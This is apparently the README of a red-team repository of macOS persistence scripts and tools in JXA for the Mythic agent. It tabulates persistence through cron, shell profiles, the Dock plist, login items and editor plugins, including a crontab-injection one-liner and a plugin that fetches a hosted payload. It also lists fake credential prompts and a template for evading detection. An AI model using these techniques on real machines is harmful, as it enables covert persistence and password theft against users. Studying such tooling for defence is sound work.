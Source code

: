 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **BashProfile** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | js_importcall BashProfile('osascript -l JavaScript -e ...') |  $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br />  $HOME/.bash_profile or  $HOME/.zshenv| sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | js_importcall CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | js_importcall DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> js_importcall DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist <br /> /private/tmp/"randomname"  <br /> /private/tmp/temp9876|  /usr/bin/plutil -convert xml1 <plist> -o /private/tmp/temp9876 & <br /><br /> /usr/bin/plutil -convert binary1 <plist> -o /private/tmp/"randomname" & <br /> <br />/usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  js_importcall FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | js_importcall LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | js_importcall PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|js_importcall SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | js_importcall SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | js_importcall VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumartes the Hardened Runtime, Entitlements, and prescense of Electron files to determine possible injection opportunities | js_importcall InjectCheck("All") <br /> or <br /> InjectCheck("/Applications/<AppName>.app") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
